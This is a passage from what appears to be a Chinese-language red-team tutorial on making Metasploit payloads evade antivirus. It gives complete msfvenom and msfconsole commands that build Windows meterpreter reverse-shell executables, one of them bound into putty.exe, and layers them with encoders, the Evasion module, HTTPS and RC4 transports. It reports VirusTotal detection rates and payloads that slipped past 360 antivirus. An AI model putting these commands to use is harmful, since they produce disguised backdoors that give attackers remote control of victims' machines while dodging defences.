

还有这种更多重编码姿势

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp -e x86/call4_dword_xor -i 14 LHOST=192.168.74.133 LPORT=5110 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 13 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -b "&" -i 4 -f raw | msfvenom -a x86 --platform windows -e cmd/powershell_base64 -i 10 -x putty.exe -k -f exe > payload6.exe
```

在`virustotal.com`上查杀率为45/70，编码多了，免杀率居然降低了。。。尴尬。。。



经过测试，发现使用的编码类型越多，免杀率可能会降低，猜测是因为各种编码引入了更多的特征码。同时生成的payload也很可能无法正常执行，这个也和被捆绑程序有一定关联。

## 7.6 Evasion模块免杀(VT免杀率12-71)

操作便利★★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/YnnCM7W20xScv52k_ubxYQ](https://mp.weixin.qq.com/s/YnnCM7W20xScv52k_ubxYQ)

2019年1月，metasploit升级到了5.0，引入了一个新的模块叫Evasion模块，官方宣称这个模块可以创建反杀毒软件的木马。

evasion有以下几个模块,可以使用`show evasion`进行查看。


使用`use windows/windows_defender_exe`进行生成payload

```
msf5 > use windows/windows_defender_exe
msf5 evasion(windows/windows_defender_exe) > set filename payload.exe
msf5 evasion(windows/windows_defender_exe) > set payload windows/meterpreter/reverse_tcp
msf5 evasion(windows/windows_defender_exe) > set LHOST 10.211.55.3
msf5 evasion(windows/windows_defender_exe) > set LPORT 3333
msf5 evasion(windows/windows_defender_exe) > run
```

经测试，可正常上线。virustotal.com中42/71个报毒。



还可以生成install_util(VT查杀率12/71)和hta(VT查杀率14/59)等，因为使用了白名单加载的方式，所以免杀效果相对好一些。

## 7.7 msf自编译+base64处理(VT免杀率33/69)

操作便利★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg](https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg)

Metasploit Framework提供了C编译器，这其实是Metasm的包装器(Metasm是一个Ruby库)，可用于汇编、反汇编和编译C代码。

使用改C编译器时，需要以下两个函数：

```
Metasploit::Framework::Compiler::Windows.compile_c(code)

Metasploit::Framework::Compiler::Windows.compile_c_to_fle(fle_path, code)
```

操作略微复杂，详细过程可以参看[https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg](https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg)。

最终生成的payloaf在virustotal.com中33/70个报毒



## 7.8 使用reverse_https(VT免杀率29/70)

操作便利★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg](https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg)

主要是参考`Green_m`的文章:`https://www.freebuf.com/sectool/118714.html`，可以一定程度的避开杀软的流量检测。

使用msfvenom生成payload

```
msfvenom -p  windows/meterpreter/reverse_https  lhost=10.211.55.2  lport=3333  -f exe -o payload1.exe
```

在VC中编译后执行，360全免杀





virustotal.com中29/70个报毒



## 7.9 使用reverse_tcp_rc4(VT免杀率33/70)

操作便利★★

免杀效果★★★

推荐指数★★★

详细文章链接：[https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg](https://mp.weixin.qq.com/s/HsIqUKl7j1WJ4yyYzXdPZg)

和上面的方法一样，使用reverse_tcp_rc4也有同样的效果，而且不用设置stageencoder选项，更稳定更方便。

```
msfvenom -p  windows/meterpreter/reverse_tcp_rc4  lhost=10.211.55.2 lport=2223 RC4PASSWORD=tidesec  -f c
```

利用rc4对传输的数据进行加密，密钥在生成时指定，在监听的服务端设置相同的密钥。

在VC中编译后执行，360全免杀，但是一会儿之后就又被查杀了。

virustotal.com中33/70个报毒




# 7 参考

很多内容参考了`wikipedia`和freebuf上`Green_m`和`Anhkgg`两位大佬的文章，在此表示感谢！想深入了解的可在访问下面链接。

免杀技术有一套:`https://anhkgg.com/aanti-virus/`

Meterpreter免杀及对抗分析:`https://www.freebuf.com/sectool/157122.html`

免杀艺术:`https://www.4hou.com/technology/3853.html`

Meterpreter免杀技巧分享:`https://www.freebuf.com/sectool/118714.html`

msf_wiki: `https://github.com/rapid7/metasploit-framework/wiki`

Create a wrapper for metasm's C compiling function:`https://github.com/rapid7/metasploit-framework/pull/10007`

How to decode Base64 with Metasploit Framework Compiler: `https://github.com/rapid7/metasploit-framework/wiki/How-to-decode-Base64-with-Metasploit-Framework-Compiler`

使用msf编码器避开杀毒软件的检测：`https://www.freebuf.com/column/216599.html`

msf多重编码:`https://blog.csdn.net/wyf12138/article/details/79825833`

Msfvenom学习总结:`http://www.secist.com/archives/3353.html`

msfvenom生成后门的免杀测试：`http://www.naivete.online/msfvenom%E7%94%9F%E6%88%90%E5%90%8E%E9%97%A8%E7%9A%84%E5%85%8D%E6%9D%80%E6%B5%8B%E8%AF%95/`

